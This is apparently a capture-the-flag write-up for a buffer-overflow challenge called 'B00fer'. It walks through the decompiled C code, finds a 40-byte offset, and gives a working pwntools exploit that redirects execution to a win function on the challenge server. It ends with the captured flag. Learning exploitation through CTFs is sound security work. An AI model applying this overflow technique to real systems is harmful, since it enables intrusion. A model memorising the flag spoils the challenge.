


# B00fer
> The Consortium sent us this file and connection info. Looks like they are taunting us. They are running the file at b00fer.niccgetsspooky.xyz, at port 9001. Try to get them to give up the flag.
>
> nc b00fer.niccgetsspooky.xyz 9001

> Look up some buffer overflow tutorials online.

> gdb is a useful tool, gdb with the gef plugin is better

We are given a binary which prints a text and asks for user input. When we open it in Ghidra, we can decompile `main` function to see what it does.

```c
undefined8 main(void)

{
  char local_28 [32];
  
  setvbuf(stdout,(char *)0x0,2,0);
  puts("Hi there NICC! This program is 100% and there is NO WAY you are getting our flag.\n");
  gets(local_28);
  return 0;
}
```

There's a buffer of size 32 and an unsanitized `gets` function. Passing into the binary a string of 100 characters leads to segmentation fault.

Looking further into Ghidra, we can find a function `win`

```c
void win(void)

{
  char local_38 [40];
  FILE *local_10;
  
  local_10 = fopen("flag.txt","r");
  fread(local_38,1,0x20,local_10);
  puts(local_38);
  puts("Good!\n");
  FUN_004010e0(1);
                    /* WARNING: Bad instruction - Truncating control flow here */
  halt_baddata();
}
```

It opens a flag on the remote server, so our goal is clearly to overwrite RIP register and jump to this function.

We can generate a [buffer overflow offset string](https://wiremask.eu/tools/buffer-overflow-pattern-generator/), open the binary in a debugger (GDB in my case), set a breakpoint and check the address of RSP register after a call to `gets`.

For a string of len 200 the program tries to jump to an address `0x3562413462413362`, which translates to an offset of 40 between the input buffer and RSP register.



Inspecting the binary attributes (pwndbg: `checksec`) shows that it's not a PIE executable:




This means that we can just put the address of `win` function into RSP.

Final exploit:
```py
from pwn import *

payload = b"A" * 40 + p64(0x401227)

conn = remote("b00fer.niccgetsspooky.xyz", 9001)

print(conn.recvline())
conn.sendline(payload)
print(conn.recvuntil(b"}"))
```

`NICC{Sp00ked_the_fl4g_0ut_of_m3}`